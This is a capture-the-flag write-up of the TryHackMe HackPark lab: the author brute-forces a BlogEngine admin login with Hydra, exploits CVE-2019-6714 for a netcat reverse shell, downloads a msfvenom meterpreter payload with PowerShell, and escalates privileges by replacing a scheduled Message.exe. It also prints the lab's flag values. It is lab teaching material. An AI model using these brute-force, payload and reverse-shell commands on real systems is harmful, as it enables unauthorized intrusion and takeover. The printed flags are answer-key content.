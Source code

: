 ```yaml
---
layout: post
title: THM — HackPark
date: 2022-09-29 00:00:00 -500
categories: [TryHackMe]
tags: [Hydra, winPEAS]
---
```


<img src="/assets/images/HackPark/logo.png" alt="HackPark Logo" width="30%">

***
<center><strong><font color="White">Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

After deploying the machine we can run basic nmap scan for open ports & services on the target machine.

```console
vladislav@Mac ~ % nmap -sV 10.10.205.86
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-28 23:06 MSK
Nmap scan report for 10.10.205.86
Host is up (0.068s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.41 seconds
```

We can see that there is an HTTP service on port 80, then we open `10.10.205.86:80` in browser.

There we are interested in the login page. Inspecting the login form we can find out that it's using POST request type.

<img src="/assets/images/HackPark/1.png" alt="Inspecting the site" width="70%">

Moreover, the url of the login page is the following: `http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/`.

***

## <strong><font color="#34A5DA">Using Hydra for brute-forcing the login</font></strong>

Now we know the URL, request type and probably the login name, so we can start brute-force with Hydra.

However, first we need to intercept the POST request using Burp Suite.

```http
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.205.86
Content-Length: 578
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.205.86
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=user&ctl00%24MainContent%24LoginUser%24Password=pass&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8
```

Now we can use Hydra for cracking the password.

> [Good notes on hydra](https://github.com/gnebbia/hydra_notes)

We set username with `-l admin`, password list with `-P /share/wordlists/rockyou.txt`, target machine IP, HTTP form and "request string".

Request string contains of three elements separated by `:`:

* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with `^USER^` and `^PASS^` where usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt

So in our case request string contains:

* `/Account/login.aspx?ReturnURL=/admin/` from the URL
* "`__VIEWSTATE`". There we should change two things: `UserNameuser` to `UserName=^USER^` and `Password=pass` to `Password=^PASS^`
* S=Success.

Here's the final hydra payload:

```bash
hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
```

```console
vladislav@Mac ~ % hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-29 00:06:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.80.203:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed
[STATUS] 995.00 tries/min, 995 tries in 00:01h, 14343406 to do in 240:16h, 16 active
[80][http-post-form] host: 10.10.80.203   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-29 00:08:15
```

So, the password is `1qaz2wsx`.

***

## <strong><font color="#34A5DA">Compromizing the machine</font></strong>

After logging into admin account we can find the blogengine version: `3.3.6.0`.

![BlogEngine About page](/assets/images/HackPark/2.png)

Searching on exploit-db, we can find the [vulnerability](https://www.exploit-db.com/exploits/46353). CVE-2019-6714. Download the script.

Firstly, we need to modify the script by changing the IP and Port of TCP connection.

Secondly, we need to rename the script:

```bash
mv 46353 PostView.ascx
```

Thirdly, we setup a reverse TCP listener. We can do this using netcat.

```console
vladislav@Mac ~ % netcat -nlvp 4445
```

After that we should upload the script using blogengine control panel:
1. Switch to *Dashboard*
2. Go to "*Published Posts*"
3. Go to "*Welcome to HackPark*"
4. In the text editor press the button "*File Manager*" and upload the PostView.ascx

Finally, go to `http://10.10.29.8:80?theme=../../App_Data/files`. If everything done right, we recieve the connection.

```console
vladislav@Mac Downloads % netcat -nlvp 4445
Connection from 10.10.29.8:49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

***

## <strong><font color="#34A5DA">Windows Privilege Escalation</font></strong>

According to the next task we need to generate another reverse shell using msfvenom.

First, we need to generate the executable with msfvenom. Use another port!

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.7.222 LPORT=4446 -f exe > rev_shell.exe

```

Next, start a simple HTTP server on your attack machine:
```bash
python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

On the reverse shell download the script:
```
powershell -c Invoke-WebRequest -uri "http://10.18.7.222:8000/rev_shell.exe" -outfile "C:\\Windows\temp\rev_shell.exe"
```

Next, we need to setup a Metasploit TCP Reverse Shell:

```console
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.7.222
msf6 exploit(multi/handler) > set LPORT 4446
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.18.7.222:4446 
```

Run the uploaded script on the target machine:
```console
cd \windows\temp
.\rev_shell.exe
```

If everything done right, we get the meterpreter reverse TCP session:
```console
[*] Started reverse TCP handler on 10.18.7.222:4446 
[*] Sending stage (175686 bytes) to 10.10.29.8
[*] Meterpreter session 1 opened (10.18.7.222:4446 -> 10.10.29.8:49264) at 2022-09-29 16:32:08 +0300

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Next, let's use WinPEAS — a script that search for possible paths to escalate privileges on Windows hosts:
```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

On the meterpreter session:
```console
meterpreter > upload winPEAS.bat c:\\windows\\temp
[*] uploading  : /Users/vladislav/winPEAS.bat -> c:\windows\temp
[*] uploaded   : /Users/vladislav/winPEAS.bat -> c:\windows\temp\winPEAS.bat
```

Run the script:
```console
c:\Windows\Temp>.\winPEAS.bat
.\winPEAS.bat

 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials

 [+] AppCmd
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd-exe
C:\Windows\system32\inetsrv\appcmd.exe exists. 

 [+] Files in registry that may contain credentials
   [i] Searching specific files that may contains credentials.
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys
C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
    
     ,/*,..*(((((((((((((((((((((((((((((((((,

   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    4.0

Transcriptions Settings:
Module logging settings:
Scriptblog logging settings:

PS default transcript history

Checking PS history file

 [+] MOUNTED DISKS
   [i] Maybe you find something interesting
Caption  
C:       



 [+] ENVIRONMENT
   [i] Interesting information?

ALLUSERSPROFILE=C:\ProgramData
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=HACKPARK
ComSpec=C:\Windows\system32\cmd.exe
CurrentLine= 0x1B[33m[+]0x1B[97m ENVIRONMENT
E=0x1B[
FP_NO_HOST_CHECK=NO
long=false
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
Percentage=1
PercentageTrack=30
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files (x86)
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Windows\TEMP
TMP=C:\Windows\TEMP
USERDOMAIN=IIS APPPOOL
USERNAME=Blog
USERPROFILE=C:\Users\Default
windir=C:\Windows

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Amazon
Common Files
Common Files
Internet Explorer
Internet Explorer
Microsoft.NET
SystemScheduler
Windows Mail
Windows Mail
Windows NT
Windows NT
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\

Looking inside HKCU\Software\OpenSSH\Agent\Keys





C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
 [+] Remote Desktop Credentials Manager
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager


Looking inside \Microsoft\Credentials\


 [+] Unattended files

 [+] SAM and SYSTEM backups

 [+] McAffee SiteList.xml
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials
```

However, it doesn't give us some useful information.

```console
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]
 4     0     System
 68    680   svchost.exe
 368   4     smss.exe
 488   2084  findstr.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\findstr.exe
 524   516   csrss.exe
 580   572   csrss.exe
 588   516   wininit.exe
 616   572   winlogon.exe
 680   588   services.exe
 688   588   lsass.exe
 748   680   svchost.exe
 756   2560  rev_shell.exe         x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\rev_shell.exe
 792   680   svchost.exe
 868   680   svchost.exe
 884   680   svchost.exe
 888   616   dwm.exe
 912   680   svchost.exe
 964   680   svchost.exe
 1108  680   svchost.exe
 1136  680   spoolsv.exe
 1168  680   amazon-ssm-agent.exe
 1244  680   svchost.exe
 1264  680   LiteAgent.exe
 1364  680   svchost.exe
 1380  680   svchost.exe
 1408  680   WService.exe
 1456  2560  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1544  1408  WScheduler.exe
 1640  680   Ec2Config.exe
 1732  748   WmiPrvSE.exe
 1836  2084  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 1876  2084  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2084  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2088  2484  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2092  2488  Message.exe
 2428  680   msdtc.exe
 2484  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2488  2188  WScheduler.exe
 2504  912   taskhostex.exe
 2560  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2580  2572  explorer.exe
 2676  748   WmiPrvSE.exe
 2792  1380  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 3032  2528  ServerManager.exe
```

Here we can see two interesting processes: WService.exe and WScheduler.exe. Let's take a look at scheduler:

```
meterpreter > cd "Program Files (x86)"
meterpreter > cd SystemScheduler
meterpreter > cd Events
```

Here we can see a file called `20198415519.INI_LOG.txt`. It contains the following information:
```
...
09/29/22 07:10:05,Event Started Ok, (Administrator)
09/29/22 07:10:38,Process Ended. PID:2224,ExitCode:4,Message.exe (Administrator)
09/29/22 07:11:03,Event Started Ok, (Administrator)
09/29/22 07:11:35,Process Ended. PID:2092,ExitCode:4,Message.exe (Administrator)
09/29/22 07:12:05,Event Started Ok, (Administrator)
09/29/22 07:12:35,Process Ended. PID:2896,ExitCode:4,Message.exe (Administrator)
09/29/22 07:13:03,Event Started Ok, (Administrator)
09/29/22 07:13:34,Process Ended. PID:1964,ExitCode:4,Message.exe (Administrator)
09/29/22 07:14:03,Event Started Ok, (Administrator)
09/29/22 07:14:33,Process Ended. PID:2588,ExitCode:4,Message.exe (Administrator)
09/29/22 07:15:01,Event Started Ok, (Administrator)
09/29/22 07:15:33,Process Ended. PID:2212,ExitCode:4,Message.exe (Administrator)
09/29/22 07:16:01,Event Started Ok, (Administrator)
09/29/22 07:16:34,Process Ended. PID:2752,ExitCode:4,Message.exe (Administrator)
09/29/22 07:17:02,Event Started Ok, (Administrator)
...
```

As we can see, Windows Scheduler starts `Message.exe` every 30 seconds.

And fortunately we have all permissions for this file:
```
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100777/rwxrwxrwx  536992   fil   2018-03-25 20:58:56 +0300  Message.exe
...
```

Change the original `Message.exe` to our `rev_shell.exe`:

```
meterpreter > mv /windows/temp/rev_shell.exe "c:\Program Files (x86)\SystemScheduler\rev_shell.exe"
meterpreter > mv Message.exe Message.f
meterpreter > mv rev_shell.exe Message.exe
```

Reload reverse TCP handler. And finally we get Administrator's privileges:

```console
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Now we can find user.txt on Jeff's Desktop containing: `759bd8af507517bcfaede78a21a73e39`.

Also, the root flag on Administrator's Desktop which contains: `7e13d97f05f7ceb9881a3eb3d78d3e72`.